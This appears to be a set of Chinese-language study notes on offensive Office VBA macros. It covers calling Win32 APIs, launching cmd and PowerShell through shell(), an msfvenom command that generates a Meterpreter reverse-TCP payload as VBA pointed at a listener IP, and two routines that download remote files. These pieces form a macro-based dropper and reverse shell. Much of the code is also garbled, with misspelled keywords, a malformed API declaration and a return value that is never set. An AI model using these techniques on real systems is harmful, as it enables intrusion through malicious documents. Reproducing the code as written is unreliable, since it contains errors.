 Public(更广)和Private 表示不同的调用范围
### win32api
Private Declare Function GetSystemDirectory Lib "kernel32" Alias "GetSystemDirectoryA"_(ByVal IpBuffer As String,ByVal nSize As Long) As Long

Sub 宏1()
Dim sPath As String * 260,lLen As Long
lLen = GetSystemDirectory(sPath,260)
Text3 = Left(sPath,lLen)
VBA.MsgBox(Text3)

End Sub


api对应类型
lpstr = string
所有带P或者你认为有指针的 = long

如果存在空间要求的必须要在定义变量的时候把大小定义好
### cmd

shell("")
shell("cmd /c echo 111 >1.txt")

shell("powershell echo 111 >1.txt")

msf : msfvenom -p windows/meterpreter/reverse_tcp lhost-192.168.2.213 lport-4444 -f vba


win32api 和恶意样本相关的书《C++黑客编程》

### 下载文件
#### 使用api：
Private Declare Function URLDownloadToFile Lib"urlmon" Ailas _ "URLDownloadToFileA"(ByVal pCaller As Long, ByVal szURL As Long,ByVal IpfnCB As Long) As Long

Pubicl Function downloadFile(ByVal strURL As String,ByVal strFile As String) As Boolean
	Dim IngReturn&
	if IngReturn = 0 Then
		downloadFile =True
	Else 
		downloadFile = False
	End if
End Function

Sub 宏1()
	Dim a As Boolean
	a = downloadFile("http://www.baidu.com","F:\1.html")
End Sub

当win32api函数存在一个立即数的返回值的时候，vba里面必须要有一个东西来接收它

### 使用xmlhttp：
``` vba
Public Function DloadFile(ByVal strURL As String,ByVal strFile As String) As Boolean
  Dim H,S
  Set H = CreateObject("Microsoft.XMLHTTP")
  H.Open "GET",strURL,False `文件网址
  H.send
  Set S = CreateObject("ADODB.Stream")
  S.Type = 1 `二进制
  S.Open
  S.write H.Responsebody `写入读取的内容
  S.savetofile str File,2 `保存文档
  S.Close
End Function

```